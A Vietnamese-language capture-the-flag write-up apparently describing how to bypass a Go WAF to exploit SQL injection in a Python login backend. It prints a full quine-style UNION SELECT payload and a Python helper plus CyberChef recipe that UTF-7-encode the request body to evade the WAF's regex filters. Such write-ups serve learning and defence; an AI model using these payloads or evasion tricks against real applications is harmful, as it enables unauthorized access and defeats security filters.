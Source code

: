 Đây là môt challenge bao gồm 1 backend được viết bằng python và 1 proxy (waf) viết bằng go
![image](https://github.com/user-attachments/assets/ff5bde2d-b8dd-4fad-99b2-7b20a775b6d1)

Đọc qua source thì waf thực hiện xử lý request, filter payload sqli, rce sau đó gửi tới backend
![image](https://github.com/user-attachments/assets/41625d7a-21dc-4762-b2f0-8996468cfac5)

Trong source backend thì mình tìm bug sqli, thực hiện chèn trực tiếp các param username và password vào câu lệnh truy vấn rồi mới thực thi
![image](https://github.com/user-attachments/assets/0c279e41-a14b-4e3c-ae42-5c3698fb5a84)


Nhưng do username fix cứng là admin nên không thể inject được, bắt buộc phải inject vào password. Sau khi query, thực hiện so sánh password của bản ghi đầu tiên với password nhập vào. Điều này khiến cho việc chèn nhưng payload như `' or '1'='1'` là không khả thi. Sau một hồi gg thì mình tìm được một trick có thể giúp cho phép trả về nội dung của câu lệnh truy vấn. [Document](https://stackoverflow.com/questions/4006189/quine-self-producing-sql-query/4006209#4006209)

```
SELECT * FROM USERS WHERE username = 'admin' and password = '' union select 1, 'admin', (select replace(replace('" union select 1, "admin", (select replace(replace("$",char(34),char(39)),char(36),"$")) --',char(34),char(39)),char(36),'" union select 1, "admin", (select replace(replace("$",char(34),char(39)),char(36),"$")) --')) --
```
Giải thích qua  thì mình sẽ thực hiện lặp lại 2 lần câu lệnh truy vấn ở đầu và cuối (vị trí `$`).

Sau khi tạo được payload thử gửi thẳng tới backend, ở đây mình build docker local và curl thẳng vào container của backend. 
![image](https://github.com/user-attachments/assets/0d5b6928-f236-450c-9c93-571176675ef0)

Thành công exploit sqli

Tiếp theo là bypass waf. Thường thì có một số kỹ thuật bypass waf như là encode payload, nối hoặc ngắt câu lệnh bằng cách chèn comment. Với regex như trên thì chỉ có thể là encode payload. 

Ở đây mình sử dụng encode [utf-7](https://en.wikipedia.org/wiki/UTF-7) phần body bằng cách thêm `;charset=utf7`
Nhưng do gặp các ký tự thuộc bảng mã ascii thì vẫn được giữ nguyên nên mình có viết script để encode các ký tự này.

```py
import base64
def base64_encode_utf7(text):
    utf16_bytes = text.encode('utf-16be')
    base64_bytes = base64.b64encode(utf16_bytes)
    base64_str = base64_bytes.decode().replace("/", ",")
    return '+'+base64_str.rstrip("=")+'-'
```
Encode ký tự 's' và '-' để bypass regex `union select` và `--`

![image](https://github.com/user-attachments/assets/9d7e4bd6-af7e-43cd-9f7a-85d8b8caa7b2)

Thực hiện encode utf7 và replace. [ricipe](https://cyberchef.org/#recipe=Encode_text('UTF-7%20(65000)')Find_/_Replace(%7B'option':'Simple%20string','string':'select'%7D,'%2BAHM-elect',true,true,true,false)Find_/_Replace(%7B'option':'Simple%20string','string':'%2BACA---'%7D,'%2BACA-%2BAC0-%2BAC0-',true,false,true,false)&input=JyB1bmlvbiBzZWxlY3QgMSwgJ2FkbWluJywgKHNlbGVjdCByZXBsYWNlKHJlcGxhY2UoJyIgdW5pb24gc2VsZWN0IDEsICJhZG1pbiIsIChzZWxlY3QgcmVwbGFjZShyZXBsYWNlKCIkIixjaGFyKDM0KSxjaGFyKDM5KSksY2hhcigzNiksIiQiKSkgLS0nLGNoYXIoMzQpLGNoYXIoMzkpKSxjaGFyKDM2KSwnIiB1bmlvbiBzZWxlY3QgMSwgImFkbWluIiwgKHNlbGVjdCByZXBsYWNlKHJlcGxhY2UoIiQiLGNoYXIoMzQpLGNoYXIoMzkpKSxjaGFyKDM2KSwiJCIpKSAtLScpKSAtLQ)

![image](https://github.com/user-attachments/assets/de1e8ab4-3c4e-447d-9d01-e938eb107279)

![image](https://github.com/user-attachments/assets/fdbc7736-833f-407a-ae8f-26b2e42e4f45)




